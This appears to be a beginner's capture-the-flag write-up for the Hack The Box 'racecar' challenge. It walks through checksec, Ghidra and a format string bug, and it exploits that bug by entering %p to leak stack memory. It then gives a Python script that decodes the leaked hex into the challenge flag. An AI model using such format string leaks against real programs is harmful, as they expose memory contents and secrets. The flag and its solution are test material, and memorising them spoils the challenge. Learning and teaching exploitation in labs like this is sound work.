










# Introduction / Context
This is my first ever `pwn` challenge, so I will be following a writeup. I plan to develop my methodology through exposure by quantity.
This writeup will be more on the explanatory side (what each function / tool does) so that I can remember / reference back to in case I need it.

Will use AI / external references for explanations.
Writeup used: [Link](https://justus-njogu.medium.com/racecar-hack-the-box-write-up-a5d443a33d11)

# Enumeration

## Step 1, using `checksec`:

`Checksec`: bash script that checks properties of executables. Reports which security protections are enabled.

Examples of security protections include:
- **NX (No eXecute / DEP):** Prevents execution of code in non-executable memory regions (e.g., stack/heap).
- **PIE (Position Independent Executable):** Enables address randomization of the binary for ASLR.
- **RELRO (Relocation Read-Only):** Protects GOT (Global Offset Table) from being overwritten.
- **Stack Canary:** Inserts a secret value before return addresses to detect buffer overflows.
- **ASLR (Address Space Layout Randomization):** Randomizes memory addresses to make exploitation harder.

running `checksec`:

```shell
checksec <binary>
```

for the `racecar` binary, we see the following:



All protections seem to be enabled.

Note: `Stripped: No` means that the symbol table & debugging info is still there, making it easier to reverse engineer.

A `Symbol table` is a list that maps names (func. names, variables, etc) to their corresponding addresses in memory.
- Makes it easier to understand the binary if not stripped.

## Step 2: `file` 

`file <filename>`: a command that tells use what type of file `<filename>` is.

running `file racecar`, we get the following:



a `32-bit` binary. (Might be useful info later, I am not sure).

## Step 3: Binary Interface

When we run the function, we see the following:


We were requested to input a name and a nickname.

Next, we have the option to choose between car info and car selection. Car info shows the following:




Car selection allows us to select one of the two cars, then makes us choose a race track



Next, we can open the progam with ghidra for further analysis.
According to the writeup, there is a `Format String Bug` at the end.

`Format String bug`: Happens when user input is unsafely passed as as the format string to functions like `printf`, `fprintf`, or `sprintf`.


# Dissasembly with Ghidra

1. Launch `Ghidra`
just type `ghidra` in the command line.

2. Import binary

Once ghidra is running, click on `File` > `Import File` and select the binary (`racecar` in our case). 

Once selected, click `Ok` once and then again for the `Import results summary`.

Now select the racecar to access the binary (double click or click once and select the green dragon).

Click `yes` to analyze the binary file.

Once in, you will see the Assembly of the binary file. We are interested in the C pseudo code.

To access it, we click on the `Functions` folder under the Symbol Tree, on the left panel.




We will see a `main` function which should have our C code.

Once selected, we see our C code in the `Decompile` window, on the right panel.



This is the main function.

We are mainly interested in the `car menu` function, since that is what gives us the hint about `flag.txt`.
by double clicking it, we can see the `car_menu` function.

Within it, we see 2 interesting things.



In line 70, it looks for a `flag.txt` file to read from. by writing whatever inside it, we can avoid the error seen prior.

According to the writeup, it would be better to write something with easily identifiable hex chars, like `AAAAA`.
```shell
echo "AAAAA" > flag.txt
```

To perform the format string attack, we should input `%p` after winning the race.

##  Format String Attack: Extra info
Link [Here](https://owasp.org/www-community/attacks/Format_string_attack).

**Table 2. Common parameters used in a Format String Attack.**

|Parameters|Output|Passed as|
|---|---|---|
|%%|% character (literal)|Reference|
|%p|External representation of a pointer to void|Reference|
|%d|Decimal|Value|
|%c|Character||
|%u|Unsigned decimal|Value|
|%x|Hexadecimal|Value|
|%s|String|Reference|
|%n|Writes the number of characters into a pointer|Reference|
# Exploitation.

after creating the `flag.txt`, we can attempt to run the binary and input `%p` when prompted.



This gets us the following string:
	**0x574361c0 0x170 0x56555d85 0x1 0x5e 0x26 0x1 0x2 0x5655696c 0x574361c0 0x57436340 0x7b425448 0x5f796877 0x5f643164 0x34735f31 0x745f3376 0x665f3368 0x5f67346c 0x745f6e30 0x355f3368 0x6b633474 0x7d213f 0xf149d800 0xf7f9e3fc 0x56558f8c 0xfffe9b38 0x56556441 0x1 0xfffe9be4 0xfffe9bec**

Struggled to decode this (despite being straightforward hex -> ascii), so I will use a writeup.

Writeup: [Link](https://blog.x3ric.com/posts/HackTheBox-RaceCar-Challenge/)

Which does everything for you. It decodes the hex string.



Flag found.
### Post Solution - Learning to decode

Since I struggled to decode, I decided to review the solution. Note that I rewrote it so variable names changed, but the logic is almost identical. kudos to the author.

```python
encoded_string = "0x574361c0 0x170 0x56555d85 0x1 0x5e 0x26 0x1 0x2 0x5655696c 0x574361c0 0x57436340 0x7b425448 0x5f796877 0x5f643164 0x34735f31 0x745f3376 0x665f3368 0x5f67346c 0x745f6e30 0x355f3368 0x6b633474 0x7d213f 0xf149d800 0xf7f9e3fc 0x56558f8c 0xfffe9b38 0x56556441 0x1 0xfffe9be4 0xfffe9bec"

  

split_string = encoded_string.split(" ")

flag = ''

for entry in split_string:

try:

entry = entry.lstrip('0x') #removes the initial '0x'

print(entry)

data_decoded = bytearray.fromhex(entry).decode('utf-8',errors='replace')

data_reversed = data_decoded[::-1]

flag += data_reversed

except:

continue

print(flag)
```

In this, some operations are crucial.
1. removing the `0x` from the start to be able to use `fromhex()` without issues.
2. using `bytearray` instead of `byte` since the data is stored in memory in a reverse order (`byte` does not allow reversing).
3. Reversing after decoding each chunk.

# Learning Outcomes

1. Learned how to use `Ghidra` on a basic level.
2. Learned about `Format String attacks`.
3. Learned about `pwntools` and how it can be used to automatically exploit.

# Next Steps

1. Decode this using `python`.
2. Solve this using my own script.
3. Learn more about `pwntools` and `ghidra`.
